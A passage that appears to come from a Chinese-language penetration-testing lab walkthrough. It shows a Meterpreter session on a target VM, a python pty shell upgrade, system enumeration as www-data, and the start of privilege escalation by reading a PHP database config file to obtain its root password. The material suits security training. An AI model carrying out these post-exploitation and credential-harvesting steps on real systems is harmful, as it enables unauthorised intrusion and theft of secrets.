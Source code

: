         攻击成功，输入`shell`以获得靶机`shell`
        
        ```sql
        meterpreter > shell
        Process 1680 created.
        Channel 0 created.
        sh: getcwd() failed: No such file or directory
        sh: getcwd() failed: No such file or directory
        
        python -c "import pty;pty.spawn('/bin/bash')" //获得交互性更好的shell
        shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
        www-data@web:$ 
        ```
        
        获得`www-data`的`shell`
        

## 提权

1. 查看权限
    
    ```sql
    www-data@web:$ whoami
    www-data
    //
    www-data@web:$ uname -a
    Linux web 2.6.38-8-server #42-Ubuntu SMP Mon Apr 11 03:49:04 UTC 2011 x86_64 x86_64 x86_64 GNU/Linux
    //
    www-data@web:$ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
        link/ether 00:0c:29:5d:85:45 brd ff:ff:ff:ff:ff:ff
        inet 192.168.75.150/24 brd 192.168.75.255 scope global eth0
        inet6 fe80::20c:29ff:fe5d:8545/64 scope link 
           valid_lft forever preferred_lft forever
    //
    www-data@web:$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```
    
2. 信息收集
    - 获取数据库连接配置文件，获得数据库用户`root`，密码`goodday`
        
        ```sql
        www-data@web:/var/www$ cat mysqli_connect.php 
        <?php # Script 8.2 - mysqli_connect.php
        
        // This file contains the database access information.
        // This file also establishes a connection to MySQL
        // and selects the database.
        